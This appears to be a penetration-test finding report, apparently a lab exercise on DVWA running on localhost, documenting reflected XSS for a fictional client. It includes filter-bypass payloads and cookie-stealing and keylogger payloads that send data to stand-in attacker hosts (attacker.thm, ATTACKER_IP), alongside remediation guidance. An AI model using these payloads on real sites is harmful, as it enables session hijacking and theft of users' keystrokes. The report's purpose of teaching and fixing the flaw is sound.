








# F-02 — Reflected Cross-Site Scripting (XSS)
**Project:** KAVACH — Workstream B  
**Client:** Meridian FinServe Pvt. Ltd. (Fictional)  
**Date:** 2026-06-11  
**Classification:** Confidential — Not for Redistribution

---

## Metadata

| Field | Value |
|-------|-------|
| Finding ID | F-02 |
| OWASP Category | A03 — Injection |
| Severity | High |
| CVSS Score | 7.4 (High) |
| CVSS Vector | AV:N/AC:L/PR:N/UI:R/S:C/C:H/I:N/A:N |
| Tool Used | Manual + curl + Browser |
| Target | `http://localhost:8081/vulnerabilities/xss_r/` |
| Status | ✅ Complete |

---

## What is Reflected XSS?

Reflected XSS occurs when a web application takes user input — such as a URL query string, form field, or HTTP header — and immediately displays it in the page response without sanitising it. Unlike Stored XSS, the injected script is **not saved on the server**. Instead, the attacker crafts a malicious link containing JavaScript and tricks a victim into clicking it. Because the site "reflects" the attacker's input back in the HTML, the browser executes the injected script in the site's origin.

**Typical entry points:**
- Parameters in the URL query string
- URL file path
- Form fields echoed back in error messages or search results
- HTTP headers (less common)

---

## What is a Payload?

In XSS, the **payload** is the JavaScript code we want to execute in the target's browser. Every payload has two parts:

- **Intention** — what the JavaScript actually does (steal cookies, log keys, redirect, etc.)
- **Modification** — changes made to bypass filters (encoding, case variation, tag splitting)

### Payload Types Used in This Assessment

**1. Proof of Concept**
The simplest payload — confirms XSS is exploitable by triggering an alert popup:
```javascript
<script>alert('XSS');</script>
```

**2. Session Stealing**
Extracts the victim's session cookie, base64-encodes it, and sends it to an attacker-controlled server:
```javascript
<script>fetch('https://attacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```

**3. Key Logger**
Captures every keystroke on the page and forwards it to the attacker — dangerous on login or payment pages:
```javascript
<script>document.onkeypress = function(e) { fetch('https://attacker.thm/log?key=' + btoa(e.key));}</script>
```

**4. Business Logic Abuse**
Calls application-specific JavaScript functions — for example, silently changing a user's registered email to enable account takeover:
```javascript
<script>user.changeEmail('attacker@hacker.thm');</script>
```

---

## Attack Path

### Step 1 — Reconnaissance & Surface Mapping

Navigated to the DVWA XSS (Reflected) module at `/vulnerabilities/xss_r/`. The page presents a single text input field asking for a name. The application echoes the input back in the response as:

```
Hello [input]
```

Normal request:
```bash
curl -s -b "PHPSESSID=ftt1gptj1m9h9cuj30vac8e7b6; security=low" \
  "http://localhost:8081/vulnerabilities/xss_r/?name=Alexa&Submit=Submit"
```

Normal response (relevant excerpt):
```html
<pre>Hello Alexa</pre>
```

**Observation:** The `name` GET parameter is reflected directly into the HTML response. No encoding or sanitisation is visible. This is a candidate for Reflected XSS.

<p align="center">
  <br>
  <em>Fig. 01: Baseline Reflection Test — input `Alexa`/Input is reflected unencoded as "Hello Alexa" in the response, confirming the `name` parameter is a candidate for Reflected XSS</em>
</p>

### Step 2 — Hypothesis & Initial Probe (Low Security)

**Hypothesis:** The `name` parameter is concatenated into the HTML response without sanitisation. Injecting a `<script>` tag will cause the browser to execute the payload immediately on page load.

**Payload used:**
```
<script>alert('XSS');</script>
```

**Curl command:**
```bash
curl -s -b "PHPSESSID=ftt1gptj1m9h9cuj30vac8e7b6; security=low" \
  "http://localhost:8081/vulnerabilities/xss_r/?name=<script>alert('XSS');</script>&Submit=Submit"
```

**Response (relevant excerpt):**
```html
<pre>Hello <script>alert('XSS');</script></pre>
```

**Verdict:** Hypothesis confirmed. The script tag is reflected raw into the HTML. Any browser loading this URL executes the JavaScript immediately — no further interaction required from the victim beyond clicking the link.

<p align="center">
  <br>
  <em>Fig. 02: Reflected XSS Confirmed — payload `<script>alert("1")</script>` injected via the `name` parameter executes unfiltered, triggering a JavaScript alert popup and proving the application is vulnerable to Reflected XSS</em>
</p>


## Step 3 — Filter Bypass (Medium Security)

Switched DVWA security level to **Medium** and repeated the same payload.

**Result:** The word `script` was stripped from the output:

```html
<pre>Hello <alert('XSS');</pre>
```
<p align="center">
  <br>
  <em>Fig. 03: Filter Bypass Attempt (Medium Security) — the same payload `<script>alert("1")</script>` is rendered as plain text "Hello alert("1")", showing the word `script` was stripped and the basic filter blocks naive payloads</em>
</p>

**Analysis:** The server-side filter uses a simple `str_replace('script', '', $input)` — it only removes the lowercase string `script`. This is trivially bypassed.

### Bypass 1 — Uppercase tag

```html
<SCRIPT>alert('XSS');</SCRIPT>
```

```bash
curl -s -b "PHPSESSID=...; security=medium" \
"http://localhost:8081/vulnerabilities/xss_r/?name=<SCRIPT>alert('XSS');</SCRIPT>&Submit=Submit"
```

**Result:** Alert fires. The filter only strips lowercase `script`.

<p align="center">
  <br>
  <em>Fig. 04: Filter Bypass via Case Manipulation — payload `<SCRIPT>alert("1")</SCRIPT>` (uppercase tags) bypasses the case-sensitive `script` string filter, executing successfully and confirming the blacklist-based sanitisation is incomplete</em>
</p>

### Bypass 2 — Nested Tag (If Both Cases Were Filtered)

If the application were to strip both uppercase and lowercase occurrences of the `script` keyword, a commonly used blacklist bypass technique is the **nested tag** approach:

```html
<scr<script>ipt>alert('XSS');</script>
```

The filter removes the inner `<script>` element, leaving behind a valid outer `<script>` tag that can be reconstructed by the browser and execute the injected JavaScript.

When this payload was tested against the **High** security level in DVWA, the application successfully blocked the payload and no JavaScript execution occurred, indicating that this bypass technique is ineffective at the High security setting.

<p align="center">
  <br>
  <em>Fig. 05: Nested Tag Bypass — Blocked (High Security) — payload `<scr<script>ipt>alert('XSS');</script>` is fully neutralised at High security, with no JavaScript execution, confirming this blacklist-bypass technique is ineffective against DVWA's High-level filter</em>
</p>

---

### Alternative Payload 1 — Image Error Event

```html

```

**Result:** The invalid image source triggers the `onerror` event, causing the JavaScript payload to execute successfully.

<p align="center">
  <br>
  <em>Fig. 06: Alternative Payload — IMG onerror Event — payload triggers the `onerror` handler on an invalid image source, executing JavaScript without using the `<script>` tag and successfully bypassing tag-based filters</em>
</p>

---

### Alternative Payload 2 — Body Onload Event

```html
<body onload=alert(1)>
```

**Result:** The `onload` event executes automatically when the page loads, resulting in successful JavaScript execution.

<p align="center">
  <br>
  <em>Fig. 07: Alternative Payload — BODY onload Event — payload `<body onload=alert(1)>` executes automatically on page load, demonstrating another event-handler-based bypass that avoids the `<script>` tag entirely</em>
</p>

---

### Alternative Payload 3 — SVG Onload Event

```html
<svg onload=alert(1)>
```

**Result:** The browser executes the `onload` event of the SVG element, successfully triggering the JavaScript payload.

<p align="center">
  <br>
  <em>Fig. 08: Alternative Payload — SVG onload Event — payload `<svg onload=alert(1)>` executes the `onload` event of the SVG element, successfully triggering JavaScript and confirming yet another non-`<script>` vector bypasses the filter</em>
</p>


---

### Step 4 — Escalation: Session Cookie Theft

With the XSS confirmed, a cookie-stealing payload was crafted. A Python HTTP server simulates the attacker's collection endpoint.

**Start attacker's listener (on Kali):**
```bash
python3 -m http.server 8000
```

**Cookie theft payload (Medium security — uppercase bypass):**
```javascript
<SCRIPT>
  new Image().src = 'http://ATTACKER_IP:8000/steal?cookie=' + document.cookie;
</SCRIPT>
```

**Crafted malicious URL sent to victim:**
```
http://localhost:8081/vulnerabilities/xss_r/?name=<SCRIPT>new+Image().src='http://ATTACKER_IP:8000/steal?c='+document.cookie</SCRIPT>&Submit=Submit
```

**Attacker's server output (on victim clicking the link):**
```
GET /steal?c=PHPSESSID=ftt1gptj1m9h9cuj30vac8e7b6;%20security=medium HTTP/1.1
```

The victim's full session cookie — including `PHPSESSID` — is transmitted to the attacker in plaintext.

<p align="center">
  <br>
  <em>Fig. 09: Session Cookie Exfiltration — the attacker's `python3 -m http.server` listener receives the victim's full `PHPSESSID` cookie in plaintext via the GET request, demonstrating real-world session hijacking impact of the Reflected XSS vulnerability</em>
</p>


---

### Step 5 — Source Code Confirmation

Viewing the DVWA source for the low security level confirms the root cause directly:

```php
// Low security — xss_r/source/low.php
$name = $_GET[ 'name' ];
// No sanitisation whatsoever
echo '<pre>Hello ' . $name . '</pre>';
```

Medium security adds only a basic filter:
```php
// Medium security — xss_r/source/medium.php
$name = str_replace( '<script>', '', $_GET[ 'name' ] );
echo '<pre>Hello ' . $name . '</pre>';
```

This replaces only `<script>` (lowercase), leaving all bypass vectors open.

---

## Vulnerability Comparison: Reflected vs Stored XSS

| Property | Reflected XSS (F-03) | Stored XSS (F-02) |
|----------|---------------------|-------------------|
| Payload stored on server | ❌ No | ✅ Yes |
| Requires victim to click link | ✅ Yes | ❌ No |
| Affects all visitors automatically | ❌ No | ✅ Yes |
| Attack delivery | Crafted URL / phishing link | One-time injection |
| Scope of impact | Targeted (one victim per link) | Broad (every visitor) |

---

## Root Cause

The application takes the `name` GET parameter directly from `$_GET['name']` and concatenates it into the HTML response without any output encoding:

```php
// Vulnerable code — low security
$name = $_GET[ 'name' ];
echo '<pre>Hello ' . $name . '</pre>';
```

The medium-security filter is incomplete — it only strips the lowercase string `<script>` using `str_replace`, which is bypassed trivially by case variation or tag splitting. Neither level applies `htmlspecialchars()` or any equivalent output encoding.

---

## Business Impact

An attacker targeting Meridian FinServe's customer portal could craft a phishing link containing a JavaScript payload and distribute it to borrowers or merchants via email or SMS. Any victim who clicks the link would silently expose their session cookie to the attacker, enabling full account takeover — including access to loan statements, EMI schedules, and payment details — without the victim entering any credentials. A link targeting an admin user would yield complete administrative access to the platform.

---

## Remediation

### Fix 1 — HTML-Encode All Reflected Output (Primary Fix)

```php
// Fixed — encode before echoing user input
$name = htmlspecialchars($_GET['name'], ENT_QUOTES, 'UTF-8');
echo '<pre>Hello ' . $name . '</pre>';
```

`htmlspecialchars()` converts `<`, `>`, `"`, `'`, and `&` into their HTML entities, preventing the browser from interpreting injected content as executable code.

### Fix 2 — Never Use str_replace as a Security Control

The medium-level `str_replace('<script>', '', $input)` pattern is not a security control. It is bypassed by:
- Case variation (`<SCRIPT>`)
- Tag splitting (`<scr<script>ipt>`)
- Alternative tags (``, `<svg onload=...>`)

**Remove all such filters** and replace with proper output encoding.

### Fix 3 — Content Security Policy Header

Adds a browser-enforced layer that blocks inline script execution even if encoding is missed:

```apache
Header set Content-Security-Policy "default-src 'self'; script-src 'self'; object-src 'none'"
```

### Fix 4 — Input Validation (Defence in Depth)

For a name field specifically, restrict input to expected characters:

```php
// Allowlist — only letters, spaces, hyphens
if (!preg_match('/^[a-zA-Z\s\-]{1,50}$/', $_GET['name'])) {
    die('Invalid input.');
}
```

---

## Diff Summary (Before → After)

| Location | Before | After |
|----------|--------|-------|
| Output rendering | `echo '<pre>Hello ' . $_GET['name'] . '</pre>'` | `echo '<pre>Hello ' . htmlspecialchars($_GET['name'], ENT_QUOTES, 'UTF-8') . '</pre>'` |
| Filter approach | `str_replace('<script>', '', $input)` — bypassable | Removed; replaced with output encoding |
| HTTP headers | None | `Content-Security-Policy` header added |
| Input validation | None | Allowlist regex for expected character set |

---
## Remediation Summary Table — Reflected XSS

| Finding | Recommended Fix | Priority |
|---|---|---|
| Unescaped user input reflected in HTML response | Context-aware output encoding (HTML entity encoding via `htmlspecialchars()` / templating auto-escape) | Critical |
| User input accepted without validation | Server-side input validation against an allow-list of expected characters/format | High |
| No restriction on executable content in responses | Implement a strict Content Security Policy (CSP) to block inline scripts | High |
| Cookies accessible to injected scripts | Set `HttpOnly` and `Secure` flags on session cookies | High |
| User-controlled data placed in HTML attributes/URLs without encoding | Apply attribute-specific and URL encoding, not just HTML-body encoding | Medium |
| Lack of automated detection for injection flaws | Integrate SAST/DAST scanning (e.g., Semgrep, ZAP) into CI pipeline | Medium |
| No reusable sanitization layer across endpoints | Centralize output encoding via a shared templating/escaping library | Medium |

---
*F-03 Complete · Project KAVACH — Workstream B · Confidential*
